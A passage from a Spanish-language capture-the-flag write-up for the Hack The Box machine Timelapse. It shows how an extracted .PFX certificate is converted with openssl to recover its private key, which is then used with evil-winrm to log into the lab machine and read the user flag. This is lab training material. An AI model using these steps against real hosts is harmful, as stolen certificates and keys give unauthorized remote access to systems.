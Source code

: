 Procederemos a convertir el .PFX en un .PEM y extraer la clave privada del certificado.

```bash
openssl pkcs12 -in zip_legacy_dev_auth.pfx -out certificate.pem -nodes

openssl rsa -in certificate.pem -out decrypted_certificate.key
```

<figure><img src="../../../.gitbook/assets/662_vmware_dVxwhTIX7x.png" alt=""><figcaption></figcaption></figure>

## Flag user.txt

Una vez obtenido el certificado y la clave privada, procederemos a conectarnos al WInRM con la herramienta **evil-winrm** indicando el certificado y clave privada que hemos desencriptado.

Comprobaremos que ganamos acceso a la máquina de TimeLapse, procedremos a comprobar la flag de "user.txt"

```bash
evil-winrm -i 10.10.11.152 -S -c certificate.pem -k decrypted_certificate.key
```

<figure><img src="../../../.gitbook/assets/663_vmware_9Xl2hIEZFz.png" alt=""><figcaption></figcaption></figure>
